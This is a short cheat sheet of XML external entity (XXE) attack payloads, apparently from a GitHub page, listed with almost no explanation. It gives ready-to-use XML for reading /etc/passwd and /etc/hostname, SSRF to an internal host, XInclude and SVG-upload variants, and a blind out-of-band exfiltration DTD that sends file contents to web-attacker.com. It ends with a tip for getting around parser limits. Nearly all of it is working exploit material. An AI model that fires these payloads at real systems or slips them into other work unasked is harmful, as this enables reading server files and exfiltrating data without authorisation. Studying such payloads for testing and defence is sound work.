 <h3> Payloads For XXE Vulnerability </h3>

XXE to read local files:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

XXE to SSRF

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

XXE via XInclude attacks

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

XXE via file upload

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY fetch SYSTEM "file:///etc/hostname">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="13" x="28" y="28">&fetch;</text>
</svg>
```

XXE parameter entities

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Blind XXE to exfiltrate data out of bound

Content of exploit.dtd:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Content of xxe payload:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a4b005404099ed681bfedb501c50098.exploit-server.net/exploit"> %xxe;]>
```

```P.S This technique might not work with some file contents, including the newline characters contained in the /etc/passwd file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as /etc/hostname can be targeted instead. ```
